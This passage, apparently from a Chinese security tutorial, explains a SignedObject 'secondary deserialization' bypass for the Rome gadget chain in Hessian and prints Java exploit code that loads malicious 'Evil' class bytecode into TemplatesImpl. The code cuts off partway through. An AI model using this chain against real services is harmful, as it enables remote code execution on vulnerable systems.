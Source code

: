 #### SignedObject二次反序列化
不能直接打rome链，因为TemplatesImpl类中被transient修饰的`_tfactory`属性无法被序列化，进而导致TemplatesImpl类无法初始化
![](https://img-blog.csdnimg.cn/12f1072dcf48488d88ec8110edc7125d.png)

为什么使用Java原生反序列化时不会报错：
因为在使用Java原生的反序列化时，如果被反序列化的类重写了readObject()，那么Java就会通过反射来调用重写的readObject()
![](https://img-blog.csdnimg.cn/00d0a53b313e4f3186e1837c6f552018.png)

可以看到TemplatesImpl在调用重写的readObject()时`_tfactory`会被实例化，那么ToStringBean遍历并调用`getOutputProperties`方法时，内部的`_tfactory.getExternalExtensionsMap()`调用也就不会报错了

我们可以使用二次反序列化来绕过限制
```java
import CommonsCollections.Evil;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ObjectBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.security.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Hessian_SignedObject {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {ClassPool.getDefault().get(Evil.class.getName()).toBytecode()});
```